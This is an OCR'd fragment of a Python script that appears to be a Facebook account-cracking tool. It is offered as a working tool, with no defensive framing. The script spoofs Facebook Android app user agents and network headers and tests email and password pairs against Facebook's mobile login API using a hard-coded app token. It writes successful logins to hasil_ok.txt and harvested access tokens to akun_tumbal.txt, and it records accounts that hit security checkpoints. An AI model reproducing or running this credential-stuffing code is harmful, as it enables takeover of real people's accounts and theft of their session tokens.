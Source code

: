 				user_agent = random.choice(["[FBAN/FB4A;FBAV/222.0.0.48.113;FBBV/155323366;FBDM/{density=2.0,width=720,height=1360};FBLC/sr_RS;FBRV/156625696;FBCR/mt:s;FBMF/HUAWEI;FBBD/HUAWEI;FBPN/com.facebook.katana;FBDV/LDN-L21;FBSV/8.0.0;FBOP/19;FBCA/armeabi-v7a:armeabi;]", 
											"[FBAN/FB4A;FBAV/246.0.0.49.121;FBBV/181448449;FBDM/{density=1.5,width=540,height=960};FBLC/en_US;FBRV/183119516;FBCR/TM;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1606;FBSV/6.0.1;FBOP/1;FBCA/armeabi-v7a:armeabi;]",
											"[FBAN/FB4A;FBAV/223.0.0.47.120;FBBV/156649505;FBDM/{density=2.625,width=1080,height=2034};FBLC/sv_SE;FBRV/0;FBCR/Telia;FBMF/HMD Global;FBBD/Nokia;FBPN/com.facebook.katana;FBDV/Nokia 7 plus;FBSV/9;FBOP/1;FBCA/armeabi-v7a:armeabi;]",
											"Mozilla/5.0 (Linux; Android 10; motorola one macro Build/QMDS30.47-33-2; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/93.0.4577.82 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/335.0.0.28.118;]"])

			# print "\r"+user_agent
			header = {"user-agent": user_agent,
					  "x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)),
					  "x-fb-sim-hni": str(random.randint(20000, 40000)),
					  "x-fb-net-hni": str(random.randint(20000, 40000)),
					  "x-fb-connection-quality": "EXCELLENT",
					  "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
					  "content-type": "application/x-www-form-urlencoded",
					  "x-fb-http-engine": "Liger"
					  }
			response = requests.get('https://b-api.facebook.com/method/auth.login?format=json&email=' + str(eml_dev) + '&password=' + str(san_dev) + '&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true', headers=header)
			if 'session_key' in response.text and 'EAAA' in response.text:
				
				if eml_dev in hasil_ok:
					pass
				else:
					print a+"\r{"+p+"Live"+a+"}"+h+" {:<15}\033[96;1m | \033[97;1m{} \033[96;1mLogin Di FB Lite ".format(eml_dev,san_dev)
					with open("hasil_ok.txt", "a") as hasil:
						hasil.write("[Live] "+ eml_dev + " | " + san_dev +"\n")
					hasil_ok.append(eml_dev)
					token = response.json()["access_token"]
					print a+"\r{"+p+"Tokn"+a+"}"+k+" AccessToken: "+h+token+"\n"
					with open("akun_tumbal.txt", "a") as tumbal:
						tumbal.write(token+"\n")
					cokiz = response.json()["session_cookies"]
					break
					
			elif 'www.facebook.com' in response.json()['error_msg']:
				id_ = response.json()
				f = id_['error_data'].encode("utf-8")
				eml_dev = re.findall('"uid":(.*),"show_native_checkpoints"', f)[0]
				if len(iqbal_) == 2:
					if eml_dev in hasil_cp:
						pass
					else:
						__ttl__cp_(eml_dev, ttl, san_dev)
						break
							